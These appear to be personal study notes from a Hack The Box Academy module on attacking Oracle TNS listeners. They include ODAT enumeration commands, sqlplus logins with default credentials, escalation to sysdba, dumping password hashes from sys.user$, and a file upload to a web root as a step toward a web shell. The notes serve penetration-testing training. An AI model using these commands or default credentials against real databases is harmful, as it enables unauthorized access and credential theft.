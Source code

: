 
https://academy.hackthebox.com/module/112/section/2117
`tcp _port_ 1521, by default`

1- `Transparent Network Substrate` (`TNS`) server

2-  communication protocol that facilitates communication between Oracle databases and applications over networks.

3- a preferred solution for managing large, complex databases in the healthcare, finance, and retail industries.

4- its built-in encryption mechanism ensures the security of data transmitted, making it an ideal solution for enterprise environments where data security is paramount.

5- Name resolution 	Connection management 	Load balancing 	Security <> features

6- encryption between client and server communication through an additional layer of security over the TCP/IP protocol layer.

7- `Oracle TNS can be remotely managed in `Oracle 8i`/`9i` but not in Oracle 10g/11g.`

##### 8- The configuration files for Oracle TNS are called `tnsnames.ora` and `listener.ora` and are typically located in the `$ORACLE_HOME/network/admin` directory.

9- TNS <> DBSNMP, Oracle Databases, Oracle Application Server, Oracle Enterprise Manager, Oracle Fusion Middleware, web servers, and many more.

10- `Oracle 9 has a default password, `CHANGE_ON_INSTALL

11- Oracle 10 has no default password set.

##### 12- Oracle DBSNMP service also uses a default password, `dbsnmp` that we should remember when we come across this one

13- many organizations still use the `finger` service together with Oracle, which can put Oracle's service at risk and make it vulnerable when we have the required knowledge of a home directory.
 14- (`SID`) is a unique name that identifies a particular database instance.
### `config`

1- Each database or service has a unique entry in the **`tnsnames.ora`** file,
containing the `necessary information` for clients to connect to the service. The entry consists of a `name` for the service, the `network location` of the service, and the `database or service name` that `clients should use when connecting to the service.`

include additional information, such as `authentication details`, `connection pooling settings`, and `load balancing configurations.`

https://academy.hackthebox.com/module/112/section/2117
```shell
${listener.ora} file is a server-side configuration file that defines the listener process's properties and parameters, which is responsible for receiving incoming client requests and forwarding them to the appropriate Oracle database instance.
```

```shell
${`tnsnames.ora`} client-side Oracle Net Services software uses the `tnsnames.ora` file to resolve service names to network addresses,
```

```shell
${``listener.ora``} listener process uses the `listener.ora` file to determine the services it should listen to and the behavior of the listener.
```

```shell
AhmaDb0x@htb[/htb]$ ./odat.py -h
alwaye check the version of the database
```

Oracle Database Attacking Tool (`ODAT`) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.


`no sid specify tnsnames.ra default value is used`

The SIDs are an essential part of the connection process, as it identifies the specific instance of the database the client wants to connect to. If the client specifies an incorrect SID, the connection attempt will fail. Database administrators can use the SID to monitor and manage the individual instances of a database. For example, they can start, stop, or restart an instance, adjust its memory allocation or other configuration parameters, and monitor its performance using tools like Oracle Enterprise Manager.


```shell
AhmaDb0x@htb[/htb]$ ./odat.py all -s 10.129.204.235
```


`sqlplus` used to connect to oracle database `it neeeeeeeeeeeeds credentials`

#### SQLplus - Log In

```shell
AhmaDb0x@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE

```

If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`,

```shell
AhmaDb0x@htb[/htb]$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
DBS

#### Oracle RDBMS - Interaction

```shell
$ SQL> select table_name from all_tables;
```

```shell
$ SQL> select * from user_role_privs;
```

Here, the user `scott` has no administrative privileges. However, we can try using this account to log in as the System Database Admin (`sysdba`), giving us higher privileges. This is possible when the user `scott` has the appropriate privileges typically granted by the database administrator or used by the administrator him/herself.

#### Oracle RDBMS - Database Enumeration

```shell
AhmaDb0x@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE as sysdba
dbsnmp
**XE**:

- It stands for **Oracle Database Express Edition** (XE), which is a lightweight, free edition of Oracle Database.
- In this context, `XE` is the **Oracle System Identifier (SID)** or **service name** used to identify the specific database instance you're connecting to on the host `10.129.205.19`.
- 

```

```shell
SQL> select * from user_role_privs;
```

we could retrieve the password hashes from the `sys.user$` and try to crack them offline.

```shell
SQL> select name, password from sys.user$;
```

Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

#### Oracle RDBMS - File Upload
```shell
AhmaDb0x@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt

AhmaDb0x@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

```shell
AhmaDb0x@htb[/htb]$ curl -X GET http://10.129.204.235/testing.txt
```

DBSNMP is **the account used by Oracle's intelligent agent to logon automatically to remote servers in order to provide information for presentation via Enterprise Manager**. DNSMP has the SELECT ANY DICTIONARY system privilege which can read the passwords from SYS.


**Try Default Users and Passwords:** Common Oracle default users include:

- `sys`
- `system`
- `scott`
- `admin` Check with tools or a wordlist if they have default or weak passwords.

SELECT * FROM v$pwfile_users;

USERNAME                       SYSDBA SYSOPER
------------------------------ ------ -------
SYS                            TRUE   TRUE
DBSNMP                         TRUE   FALSE




Try other default Oracle credentials to gain access. Common ones include:

- `sys/change_on_install as sysdba`
- `system/manager`
- `scott/tiger`
- `admin/admin`